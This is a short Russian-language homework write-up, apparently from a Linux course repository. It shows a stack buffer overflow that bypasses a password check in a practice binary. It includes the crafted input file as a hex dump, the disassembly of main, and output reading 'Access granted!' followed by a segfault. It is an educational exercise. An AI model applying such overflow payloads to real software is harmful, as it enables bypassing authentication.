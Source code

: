# Задание 1

Абонентский справочник был написан с использованием функций изначально. 

# Задание 2 

Файл переданный
 
**input.bin**
┌────────┬─────────────────────────┬────────┐
│00000000│ 68 65 6c 6c 6f 00 ff ff │hello⋄××│
│00000008│ ff 7f 00 00 40 de ff ff │×•⋄⋄@×××│
│00000010│ ff 7f 00 00 cd 11 40    │×•⋄⋄×•@ │
└────────┴─────────────────────────┴────────┘

Команды:

``` asm
Dump of assembler code for function main:
   0x000000000040118f <+0>:	push   %rbp
   0x0000000000401190 <+1>:	mov    %rsp,%rbp
   0x0000000000401193 <+4>:	sub    $0x10,%rsp
   0x0000000000401197 <+8>:	lea    0xe6b(%rip),%rax        # 0x402009
   0x000000000040119e <+15>:	mov    %rax,%rdi
   0x00000000004011a1 <+18>:	call   0x401030 <puts@plt>
   0x00000000004011a6 <+23>:	call   0x401156 <IsPassOk>
   0x00000000004011ab <+28>:	mov    %eax,-0x4(%rbp)
   0x00000000004011ae <+31>:	cmpl   $0x0,-0x4(%rbp)
   0x00000000004011b2 <+35>:	jne    0x4011cd <main+62>
   0x00000000004011b4 <+37>:	lea    0xe5e(%rip),%rax        # 0x402019
   0x00000000004011bb <+44>:	mov    %rax,%rdi
   0x00000000004011be <+47>:	call   0x401030 <puts@plt>
   0x00000000004011c3 <+52>:	mov    $0x1,%edi
   0x00000000004011c8 <+57>:	call   0x401060 <exit@plt>
   0x00000000004011cd <+62>:	lea    0xe53(%rip),%rax        # 0x402027 (в этом адресе хранится нужная строка)
   0x00000000004011d4 <+69>:	mov    %rax,%rdi
   0x00000000004011d7 <+72>:	call   0x401030 <puts@plt>
   0x00000000004011dc <+77>:	mov    $0x0,%eax
   0x00000000004011e1 <+82>:	leave
   0x00000000004011e2 <+83>:	ret
End of assembler dump.
```
Нужный адрес `0x00000000004011cd`.
Переполнением перезаписал регистр rbi (rbp+8), записав в файле 12 байт, записал в файл сохраненный `rbp`, записал в файл адрес нужной команды. 

``` sh
➜  EltexSchoolLinux git:(main) X ./main < input.bin 
Enter password:
Access granted!
[1]    37940 segmentation fault (core dumped)  ./main < input.bin
```

---

В причине segmentation fault  не уверен 

